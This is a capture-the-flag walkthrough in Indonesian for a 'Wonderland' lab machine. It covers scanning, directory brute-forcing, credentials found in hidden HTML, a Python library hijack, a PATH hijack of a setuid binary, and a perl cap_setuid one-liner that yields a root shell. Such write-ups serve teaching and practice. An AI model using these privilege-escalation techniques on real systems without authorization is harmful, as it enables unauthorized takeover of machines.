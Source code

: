 # Wonderland

```
target: 10.10.174.70
```

Lakukan scanning seperti biasa
```bash
rustscan -a 10.10.174.70 -- -A | tee zcan-rust
...
...
Open 10.10.174.70:80
Open 10.10.174.70:22
...
```

Jika kita buka webnya di `http://10.10.174.70`, maka akan muncul index yang memberikan hint "Follow the white rabbit". Karena itu, disini langsung saja kita coba brute-force webdir
```bash
dirsearch -u http://10.10.174.70 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
...
...
301 -    0B  - /r  ->  r/
...
```
Jika kita pergi ke `http://10.10.174.70/r`, maka akan muncul index yang memberikan hint lagi dengan "Keep Going.". Dari sini saya mulai curiga, dan mencoba untuk menambahkan per huruf pada setiap direktori, sehingga menjadi `http://10.10.174.70/r/a/b/b/i/t`, dan hasilnya adalah benar. Kita akan mendapat index dengan hint "Open the door and enter wonderland", dan jika kita membuka source-code nya, kita akan mendapat creds ssh untuk user alice
```html
...
...
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisXXXXXXX</p>
    <img src="/img/alice_door.png" style="height: 50rem;">
...
```
dan ketika kita gunakan untuk login, berhasil.

Setelah login, ternyat akita mendapat user alice. Ketika dicek dengan `id` alice tidak termasuk group apapun, namun ketika dicek dengan `sudo -l`, kita mendapat informasi
```bash
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
alice dapat run script tersebut sebagai user `sudo -u rabbit`. Jika kita coba run script tersebut dengan cara
```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
maka akan menghasilkan random words. Kita dapat mulai investigasi isinya isinya, kita mendapati bawha script ini:
    - melakukan import library `random`
    - script ini akan mengambil 10 line kalimat secara random dari variable `poem`

Dari hal ini, kita dapat ketahui bahwa ketika kita execute script, script akan mengambil library yang diperlukan untuk randomize line, dan library ini di store di suatu direktori. Untuk cek direktori nya, kita dapat menggunakan command berikut
```bash
python3 -c "import sys;print(sys.path)"
...
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```
dapat dilihat, bahwa library berada di `/usr/lib/python3.6`, kita dapat pastikan lagi dengan
```bash
locate random.py
...
/usr/lib/python3.6/random.py
```
Jika dari banyaknya path tersebut merupakan world writeable, maka hal tersebut dapat memicu adanya privesc, hal ini karena menempatkan file dengan nama yang sama akan memicu untuk load malicious file tersebut ketika direquest oleh script yang akan di run. Dalam hal ini, terdapat `''` didalam hasil dari pencarian direktori library. Hal itu menunjukkan current directory kita, jika kita membuat file yang sama di current directory, maka file yang kita buat yang akan di load daripada library yang sebenarnya. Untuk itu, kita buat file baru
```bash
vim random.py
...
import os
os.system("/bin/bash")
```
selanjutnya kita jalankan file tersebut
```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
```
kita akan otomatis privesc secara horizontal ke user rabbit karena file random.py yang di load adalah file yang barusan kita buat dan ada di direktori saat kita run script tersebut. Setelah menjadi user rabbit, jika kita lihat di home, kita mendapati suid file dengan nama `teaParty`, ketika di run, akan menghasilkan output seperti berikut
```bash
./teaParty
...
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 23 Jan 2024 09:26:20 +0000
Ask very nicely, and I will give you some tea while you wait for him
test
Segmentation fault (core dumped)
```

**BUFFER OVERFLOW?????** :( ini kelemahan saya huhuhu. Tapi tidak papa, kita search di internet :D. Sebelumnya, kita copy dulu file tersebut ke local. Selanjutnya kita buat menjadi executable dengan cara `chmod +x teaParty` masuk ke `ghidra` untuk analisa file binary tersebut. Setelahnya kita akan mendapat code ini ketika kita pergi ke main function
```c
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```
Disini setelah saya lihat code di main function, saya belum tahu apa yang aneh dan menurut saya normal saja, selain itu `puts();` digunakan untuk selalu menampilkan Segmentation fault langsung setelah kita memberikan input. Ternyata tidak ada buffer overflow :D, tapi saya masih bingung :(.

Akhirnya setelah mencari lebih dalam, saya mendapat jawaban bahwa binary ini memanggil program yang sudah dimiliki oleh system seperti `echo` dan `date`. Yang mana, `echo` terdefine secara jelas berada di `/bin/echo` sedangkan `date` tidak, jadi binary ini menggunkaan linux PATH untuk mencari program yang dimiliki oleh sistem. Oleh karena itu kita bisa memanfaatkan hal ini untuk menggiringnya ke direktori dan file lain :D. Kita akan membuat file bernama `date` di `/tmp` direktori dengan isi seperti berikut
```bash
#!/bin/bash
/bin/bash
```
Selanjutnya kita tambahkan dir `/tmp` ke PATH linux dengan cara
```bash
export PATH=/tmp:$PATH
echo $PATH
...
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
Jika hasil nya sudah ada `/tmp` di PATH, maka kita bisa langsung eksekusi program `teaParty` tersebut
```
rabbit@wonderland:/tmp$ /home/rabbit/teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/tmp$ whoami
hatter
```
dan kita berhasil privesc ke user hatter. Setelah itu kita coba cek isi homenya, ternyata kita mendapat password dari user hatter
```bash
cat password.txt
...
WhyIsAXXXXLikeAXXXXDesk?
```
Kita bisa langsung login ssh dengan creds tersebut.
Jika sudah, untuk mempercepat enumerasi, disini saya menggunakan linpeas :D. Dan dari hasil run linpeas, saya mendapat hal yang menarik
```bash
...
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep

╔══════════╣ Users with capabilities
...
```
Ternyata terdapat CAP_SETUID di `perl`, kita dapat mencarinya di [gtfobin](gtfobins.github.io), dan ketemu, payload untuk exploit `perl` dengan kapabilitas setuid
```bash
...
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
Jika kita jalankan payload tersebut, maka kita akan bisa privesc vertikal ke root user dan mendapatkan semua flagnya. `user.txt` terdapat di `/root/` dan `root.txt` terdapat di `/home/alice`


